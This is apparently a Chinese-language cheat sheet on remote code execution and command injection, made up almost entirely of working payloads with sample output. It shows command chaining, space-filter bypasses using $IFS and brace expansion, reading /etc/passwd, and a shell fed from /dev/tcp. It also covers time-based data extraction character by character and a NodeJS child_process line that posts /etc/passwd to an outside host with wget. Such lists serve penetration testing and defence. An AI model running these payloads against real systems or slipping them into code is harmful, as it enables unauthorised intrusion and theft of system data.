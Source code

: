 # 远程代码执行
远程代码执行时一种允许攻击者执行远程服务器上代码的漏洞。
	

## Exploits
普通的远程代码执行, 执行命令以及 and voila :p
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```

通过链接命令的代码执行
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
```

无空格的代码执行
```
swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

## 基于时间的数据渗漏
提取数据 : 逐字符
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```

## 基于环境的代码执行
NodeJS代码执行
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## 感谢
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
